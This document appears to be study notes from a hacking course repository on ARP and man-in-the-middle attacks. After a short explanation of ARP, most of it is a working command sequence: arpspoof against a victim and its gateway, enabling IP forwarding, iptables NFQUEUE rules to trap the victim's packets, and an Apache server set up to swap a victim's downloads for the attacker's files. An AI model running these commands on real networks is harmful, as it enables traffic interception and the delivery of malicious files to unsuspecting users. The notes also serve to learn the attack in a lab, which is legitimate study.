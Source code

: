ARP - address resolution protocol, helps to connect the client with another client via IP and MAC addresses. ARP links IP address to MAC address.

Client sends a broadcast message with ARP request, e.g. who has 10.0.2.6? All clients on this network will receive this packet. All the devices will ignore the request except the one with the requested IP address. The requested device will get back with its MAC address.

So all the requests and responses are facilitated via ARP, so that IP address could be 'translated' to MAC address.

command `route -n` to get router IP

Some references: [Scapy Docs](https://scapy.readthedocs.io/en/latest/installation.html) and [Arping Usage](https://scapy.readthedocs.io/en/latest/usage.html#arp-ping)

_ARP Spoofing_

`arp -a` cli to see the link of the modem/router to the MAC address
To spoof ARP is to set the IP of the victim as yours (hacker's) so that in the ip-tables of the router is memorized while IP of the router is in the ip-tables of the victim but the hacker presents itself to the victim via ip address of the router. Result: router thinks it is a real client(victim) and the client (victim) thinks it is a router.

`ifconfig` to make sure the eth0 is there
`arpspoof -i eth0 -t 10.0.2.4 10.0.2.1` where the first is IP of the vitim and second is a gateway; it spoofs the target saying that we are the router.
`arpspoof -i eth0 -t 10.0.2.1 10.0.2.7` - to implement the same but with the router. This attack works against ethernet, wireless

`echo 1 > proc/sys/net/ipv4/ip_forward` to enable port forwarding to allow packets to flow through it just as a router

`pip install scapy_http` considered to be deprecated, yet good to look around along with [Berkeley Packet Filter (BPF) syntax](https://biot.com/capstats/bpf.html)

`iptables -I FORWARD -j NFQUEUE --queue-num 0` command to 'trap' victim's packets in a queue. To test locally instead of `FORWARD` to `OUTPUT` + `INPUT` in 2 commands (aka redirecting output and input chains). To set it back `ìptables --flush`

`pip install netfilterqueue` - a module to extract queueing packets, deprecated of Jan 2020, see the dependecies to install for running via `python`

To intercept the file with your own file, run your webserver on Kali, from var => www => html put in the folder with necessary files. Run the server `service apache2 start` => `iptables -I FORWARD -j NFQUEUE --queue-num 0` => run ./arp_spoof.py to become a man in the middle, not to forget ip forwarding `echo 1 > proc/sys/net/ipv4/ip_forward` to allow the packet to flow through the Kali machine and prevent the disabling of internet surfing on the victim's machine.
